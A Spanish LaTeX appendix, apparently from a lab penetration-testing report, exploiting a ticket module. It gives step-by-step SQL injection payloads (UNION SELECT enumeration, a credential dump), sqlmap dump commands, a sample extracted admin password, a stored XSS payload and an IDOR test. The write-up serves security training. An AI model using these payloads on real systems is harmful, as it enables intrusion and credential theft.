\crearanexo{Explotación del módulo de tickets}{anexo:tickets_sqli_xss_idor}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es analizar el módulo de tickets del Portal PYME y validar tres vulnerabilidades diferentes: SQL Injection, Cross-Site Scripting almacenado e IDOR. La vulnerabilidad principal para la cadena de ataque es la SQL Injection, ya que permite extraer credenciales de la base de datos.

\subsubsection*{Punto de partida}

El endpoint utilizado para consultar el estado de una incidencia recibe un código de ticket mediante el parámetro \texttt{codigo}:

\begin{configbox}
http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001
\end{configbox}

Se parte de un ticket válido generado desde la propia aplicación, por ejemplo:

\begin{configbox}
TCK-2026-001
\end{configbox}

\subsubsection*{Confirmación de SQL Injection}

La primera comprobación consiste en introducir una comilla simple al final del parámetro:

\begin{configbox}
TCK-2026-001'
\end{configbox}

Si la aplicación devuelve un error o un comportamiento diferente, se obtiene un primer indicio de inyección SQL. Posteriormente se valida la vulnerabilidad con una condición siempre verdadera:

\begin{configbox}
' OR '1'='1'#
\end{configbox}

Cuando la aplicación muestra más resultados de los esperados, se confirma que el parámetro está siendo incorporado a una consulta SQL de forma insegura.

\subsubsection*{Identificación del número de columnas}

Para preparar una explotación mediante \texttt{UNION SELECT}, se determina el número de columnas de la consulta original mediante \texttt{ORDER BY}:

\begin{configbox}
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
' ORDER BY 4#
' ORDER BY 5#
' ORDER BY 6#
' ORDER BY 7#
\end{configbox}

El fallo al llegar a \texttt{ORDER BY 7} indica que la consulta original contiene seis columnas.

\subsubsection*{Extracción de información de la base de datos}

Una vez conocido el número de columnas, se prepara una consulta \texttt{UNION SELECT} de prueba:

\begin{configbox}
' UNION SELECT 'A','B','C','D','E','F'#
\end{configbox}

A continuación se obtiene el nombre de la base de datos activa:

\begin{configbox}
' UNION SELECT database(),'B','C','D','E','F'#
\end{configbox}

Para listar las tablas existentes se consulta \texttt{information\_schema.tables}:

\begin{configbox}
' UNION SELECT group_concat(table_name),'B','C','D','E','F'
FROM information_schema.tables
WHERE table_schema = database()#
\end{configbox}

Después se enumeran las columnas de la tabla \texttt{empleados}:

\begin{configbox}
' UNION SELECT group_concat(column_name separator ' | '),'B','C','D','E','F'
FROM information_schema.columns
WHERE table_name = 'empleados'#
\end{configbox}

Finalmente, se extraen usuarios y contraseñas:

\begin{configbox}
' UNION SELECT group_concat(username,':',password separator ' | '),'B','C','D','E','F'
FROM empleados#
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/leak-databas-tickets.png}

    \vspace{0.2cm}
    \captionazul{Extracción de credenciales desde la base de datos mediante SQL Injection en el módulo de tickets.}
    \label{fig:anexo_leak_database_tickets}
\end{figure}

Entre las credenciales obtenidas destaca la cuenta administrativa del portal:

\begin{configbox}
system_admin:admin123
\end{configbox}

\subsubsection*{Validación con SQLMap}

Además de la explotación manual, la vulnerabilidad puede validarse mediante SQLMap:

\begin{bashbox}
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
--batch \
--dbs
\end{bashbox}

Enumeración de tablas:

\begin{bashbox}
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
--tables \
--batch
\end{bashbox}

Extracción de credenciales:

\begin{bashbox}
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
-T empleados \
-C username,password \
--dump \
--batch
\end{bashbox}

\subsubsection*{Validación de XSS almacenado}

La funcionalidad de creación de tickets permite introducir contenido controlado por el usuario. Si este contenido se almacena y posteriormente se renderiza sin codificación adecuada, se produce un XSS almacenado.

Payload de prueba:

\begin{configbox}
<img src=x onerror=alert(1)>
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/xss-tickets.png}

    \vspace{0.2cm}
    \captionazul{Inserción de contenido controlado por el usuario en el módulo de tickets, representando un caso de XSS almacenado.}
    \label{fig:anexo_xss_tickets}
\end{figure}

\subsubsection*{Validación de IDOR}

Los identificadores de ticket siguen un formato predecible:

\begin{configbox}
TCK-2026-001
TCK-2026-002
TCK-2026-003
\end{configbox}

Si la aplicación únicamente comprueba que el ticket existe, pero no verifica que el usuario tenga permisos para consultarlo, se produce una vulnerabilidad de tipo IDOR. La prueba consiste en modificar manualmente el parámetro \texttt{codigo}:

\begin{configbox}
/estado_ticket.php?codigo=TCK-2026-002
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/IDOR-tickets.png}

    \vspace{0.2cm}
    \captionazul{Consulta de tickets mediante identificadores predecibles, representando un caso de IDOR.}
    \label{fig:anexo_idor_tickets}
\end{figure}

